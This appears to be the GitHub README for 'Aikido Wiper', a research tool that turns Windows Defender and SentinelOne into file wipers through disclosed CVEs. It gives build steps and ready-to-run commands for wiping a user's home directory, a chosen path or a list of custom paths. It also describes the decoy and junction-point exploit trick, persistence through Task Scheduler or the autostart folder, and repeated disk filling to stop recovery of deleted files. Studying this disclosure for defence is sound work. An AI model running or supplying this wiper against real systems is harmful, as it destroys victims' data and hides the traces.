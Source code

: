 # Aikido Wiper
Presented in Black Hat Europe 2022 Briefings under the title - [**Aikido: Turning EDRs to Malicious Wipers Using 0-day Exploits**](https://www.blackhat.com/eu-22/briefings/schedule/#aikido-turning-edrs-to-malicious-wipers-using--day-exploits-29336)

Full research process is described here - https://www.safebreach.com/resources/blog/safebreach-labs-researcher-discovers-multiple-zero-day-vulnerabilities/

## CVEs issued so far
* Windows Defender & Windows Defender for Endpoint - **CVE-2022-37971**
* TrendMicro Apex One - **CVE-2022-45797**
* Avast Antivirus & AVG Antivirus - **CVE-2022-4173**

The wiper is implemented only for the vulnerabilities found in the Windows Defender, Windows Defender for Endpoint and SentinelOne EDR.
## Installation
### Aikido Wiper Library
```bash
pip install <repo_path>
```
or
```bash
python setup.py install
```

### Aikido Wiper Tool
Make sure you installed the Aikido Wiper Library and then run:
```bash
pyinstaller --onefile wiper_tool/wiper.py
```

## General Description
Aikido Wiper is a next-gen wiper that manipulates EDRs and anti viruses in order to delete files.
## Usage
The Aikido Wiper offers two options to begin with:
```cmd
cmd> .\wiper.exe -h
usage: wiper.exe [-h] [-q] {PROXY_DELETION,ERASE_DISK_TRACES} ...

Aikido Wiper - Next gen wiping

optional arguments:
  -h, --help            show this help message and exit
  -q, --quiet           If specified, the wiper will run in the background

mode:
  {PROXY_DELETION,ERASE_DISK_TRACES}
```
* `PROXY_DELETION` - Specifies that you want to wipe something.
* `ERASE_DISK_TRACES` - Specifies that the wiper should fill the free space on the disk completely with a huge file, delete the file, and repeat this process a few times. This option mainly exists for the wiper to be able to use this feature in order to make deleted files unrestorable after one of the exploits is exploited and a reboot occurs.

If `PROXY_DELETION` is chosen then a few other options are available:
```cmd
cmd> .\wiper.exe PROXY_DELETION -h
usage: wiper.exe PROXY_DELETION [-h] [-p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}]
                                [-etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}]
                                [--decoy-root-dir DECOY_ROOT_DIR]
                                {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS} ...

optional arguments:
  -h, --help            show this help message and exit
  -p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}, --proxy {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}  
                        The proxy security control to use
  -etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}, --erase-traces-point {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}
                        When to execute the part of the wiping that fills the disk to remove traces of deleted files       
  --decoy-root-dir DECOY_ROOT_DIR
                        The path in which all the decoys will be placed in case of a usage of a JunctionSwitchProxy        

deletion_target:
  {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS}
    ALL_USER_DATA       Try to delete the home directory of a certain user
    ALL_FILES_UNDER_PATH
                        Try to delete all the files under the certain path
    CUSTOM_PATHS        Try to delete custom paths
```
The mandatory option to choose is the deletion target.
* `ALL_USER_DATA` requires the name of the target user. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_USER_DATA Admin
```
* `ALL_FILES_UNDER_PATH` requires the path to the target directory. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_FILES_UNDER_PATH C:\Users\Admin
```
This option is not relevant to run against Windows Defender & Defender for Endpoint since the exploit for them does not support specific files deletion
* `CUSTOM_PATHS` requires a path to a file that contains a list separated by line breaks and contains the paths to try to delete. The paths can be directories or files. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION CUSTOM_PATHS .\custom_paths.txt
```
The exploit for Windows Defender & Defender for Endpoint does not support specific files deletion. Therefore, the custom paths file can contain only paths to directories.

### Default Behavior With Mandatory Arguments Only
If you give the wiper only the mandatory arguments, which are the operation mode, probably `PROXY_DELETION`, along with the deletion target, then the default behavior will be as the following:
* The wiper will create a decoy directory in the root path of the Windows drive of the computer.
* The wiper will create the specially crafted paths inside the decoy directory and create the decoy files.
* The wiper will keep open handles to the decoy files until the EDR or the AV is forced to give up on deleting them and instead marks them for deletion for after the next reboot.
* The wiper will write a task to the task scheduler that will run the wiper in the `ERASE_DISK_TRACES` mode right after the reboot.
* After the reboot the target files or directories will be deleted and the wiper will start the process of filling up the disk a few times.

### Optional Behavior With Optional Arguments
#### `-p` / `--proxy`
Lets you choose the deletion proxy class to use. By default, the class is chosen according to the EDR / AV installed on the computer.
* `MicrosoftDefenderDeleteProxy` - Exploits CVE-2022-37971.
* `SentinelOneDeleteProxy` - Exploits <TBD>
#### `-etp` / `--erase-traces-point`
Lets you choose the point in time in which the erase disk traces trick should occur. In other words, the point in time when the wiper starts to fill up the disk to no space for a few times.
* `RIGHT_AFTER` - Should occur right after the exploit is being exploited with no reboot (not relevant for `MicrosoftDefenderDeleteProxy` or `SentinelOneDeleteProxy` but maybe for future exploits)
* `TASK_SCHEDULER_REBOOT` - The wiper should erase disk traces after reboot while using the task scheduler persistency method.
* `AUTOSTART_REBOOT` - The wiper should erase disk traces after reboot while using the autostart directory persistency method.
#### `--decoy-root-dir`
The exploits require a creation of decoy malicious files in order to make the AV / EDR try to delete them and then right before the deletion turn the decoys' root directory into a junction point to the Windows drive. This parameter lets you choose where to create the root directory for the decoys which are used for the exploits against the EDRs / AVs. The default directory is a directory with a uuid name in the Windows drive.



